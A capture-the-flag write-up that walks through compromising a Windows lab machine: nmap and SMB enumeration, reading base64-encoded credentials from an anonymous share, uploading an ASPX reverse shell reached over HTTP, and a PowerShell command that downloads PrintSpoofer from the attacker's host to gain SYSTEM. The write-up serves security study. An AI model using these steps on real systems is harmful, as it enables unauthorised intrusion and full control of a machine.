 # Relevant 

##### Written: 23/10/2021

##### IP address: 10.10.72.53

---

### [ User Flag ]

We first start off with a basic **nmap** scan on the target machine. This will only target the top 1000 ports.

```
sudo nmap -sC -sV -vv 10.10.72.53
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that the following ports are open:

**Port 80** - HTTP Web server

**Port 135** - Windows RPC

**Port 139** - SMB Server

**Port 445** - SMB Server

**Port 3389** - Microsoft Terminal Services

<br>

Let's first take a look at the HTTP server.

<img style="float: left;" src="screenshots/screenshot2.png">

Doing some manual enumeration of the website, I was unable to find anything of interest. The enumeration included checking of the source code and other low-hanging fruit such as the robots.txt file. Clickable elements within the webpage also only brought us to other websites that were not of use to us.

Next, I tried running a **Gobuster** directory scan on the website, but unfortunately I was unable to find any hidden directories.

<br>

Hitting a dead end, I decided to move on to enumerating the Samba server that is running on port 139 and 445.

At first, I tried to use a Samba enumeration tool called **enum4linux**, but it was unable to scan the server.

``` 
enum4linux 10.10.72.53
```

<img style="float: left;" src="screenshots/screenshot3.png">

<br>

Next, I tried using **smbclient** to list out the shares that were accessible on the server. This can be done with the `-L` tag.

```
smbclient -L 10.10.72.53
```

<img style="float: left;" src="screenshots/screenshot4.png">

Nice! Looks like there are a few shares that we can potentially log into if they have **anonymous access** enabled. I tried to log into all of the shares, but the only shares that I could successfully log into were the **IPC$** and **nt4wrksv** shares.

---

*Note: While enum4linux did not work, we can alternatively use nmap to run a smb enumeration scan on our target. The command is:*

``` 
nmap --script smb-enum-shares.nse -p445 <host>
```

---

While the **IPC$** share did not contain anything, the **nt4wrksv** share actually contained a **passwords.txt** file.

<img style="float: left;" src="screenshots/screenshot5.png">

<br>

I downloaded the text file onto my local machine. The contents are:

<img style="float: left;" src="screenshots/screenshot6.png">

Looks like the text file contained user passwords that were **base64-encoded**. After decoding them, we get the following user credentials:

* **Bob: !P@$$W0rD!123**

* **Bill: Juw4nnaM4n420696969!$$$**

With these credentials, I tried to log into the other Samba shares, but unfortunately they did not work. I also tried to log into the RDP service, but that was to no avail as well.

<br>

Hitting yet another dead end, I decided to run a **full nmap** scan. Perhaps there are other ports open on the machine that were not detected initially.

```
sudo nmap -sC -sV -vv -p- -T4 --defeat-rst-ratelimit 10.10.72.53
```

*The -T4 and the --defeat-rst-ratelimit tags are used to speed up the nmap scan greatly. We would not use these settings in a real-world application as it is very noisy. However, since we are scanning within a controlled CTF environment, we can go wild :)*

**Results:**

<img style="float: left;" src="screenshots/screenshot7.png">

Apart from the ports that we scanned earlier, there are now 3 new open ports that were detected:

**Port 49663** - Another HTTP server

**Port 49667** - Windows RPC

**Port 49669** - Windows RPC

<br>

What caught my attention was the HTTP server running on port **49663**. Let's take a look:

<img style="float: left;" src="screenshots/screenshot8.png">

This brings us to the same webpage as before.

However, running a **Gobuster** directory scan this time reveals a subdirectory called **/nt4wrksv**!

---

*Note: The **/nt4wrksv** entry is actually located at the very bottom of the dirbuster medium directory wordlist. Hence, I had to wait for Gobuster to completely go through the wordlist before it managed to detect this subdirectory! This was a lesson on patience as I would have normally assumed that there were no more potential results once Gobuster had gone through about half of the wordlist, and would have stopped the scan. Fortunately, I let Gobuster finish the scan this time.*

---

<img style="float: left;" src="screenshots/screenshot9.png">

As this directory has the same name as the Samba share from earlier, I assumed that directory is actually bringing us to the  share itself.

To test this, I tried visiting **/nt4wrksv/passwords.txt**:

<img style="float: left;" src="screenshots/screenshot10.png">

Sure enough, the passwords.txt file in the SMB share was displayed! This is great as that means we can potentially obtain RCE by uploading a file into the share and accessing it via the webpage. With this, we can open up a reverse shell and gain a foothold into the target machine.

<br>

<img style="float: left;" src="screenshots/screenshot11.png">

Using **Wappalyzer** on the main webpage, I found out that the framework that was being used was **Microsoft ASP.NET**. As such, we will have to upload an **ASPX reverse shell** file. I found such a file here: https://github.com/borjmz/aspx-reverse-shell

Using `smbclient`, I then uploaded the reverse shell into the **nt4wrksv** share. 

<img style="float: left;" src="screenshots/screenshot12.png">

Once that was done, I opened up a netcat listener and opened the reverse shell by accessing **/nt4wrksv/shell.aspx**.

<img style="float: left;" src="screenshots/screenshot13.png">

And we're in!

<br>

With that, we can obtain the user flag that is located in the **Desktop** of the user **Bob**:

<img style="float: left;" src="screenshots/screenshot14.png">

---

### [ Root Flag ]

Next, we have to find a way to escalate our privileges. Let's first check out the privileges that are enabled on our current account. We can do this with the `whoami /priv` command:

<img style="float: left;" src="screenshots/screenshot15.png">

Interesting! Looks like we have the **SeImpersonatePrivilege** privilege enabled. With this privilege enabled, we can use the **PrintSpoofer** tool to escalate our privileges. (https://github.com/dievus/printspoofer)

*More information on how PrintSpoofer works can be found here: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/*

<br>

We upload the PrintSpoofer tool onto our target machine by using Powershell to download it from a Python HTTP server that we have set up on our local machine. The command to download the tool is:

```
powershell "Invoke-WebRequest -UseBasicParsing <YOUR_IP_HERE>/PrintSpoofer.exe -OutFile PrintSpoofer.exe"
```

Once the tool is downloaded, we can simply run it with:

```
.\PrintSpoofer.exe -i -c cmd 
```

This will open up a cmd prompt with root privileges.

<img style="float: left;" src="screenshots/screenshot16.png">

And we have successfully escalated our privileges! With that, we can obtain the root flag that is located in the **Desktop** of the **Administrator** account:

<img style="float: left;" src="screenshots/screenshot17.png">

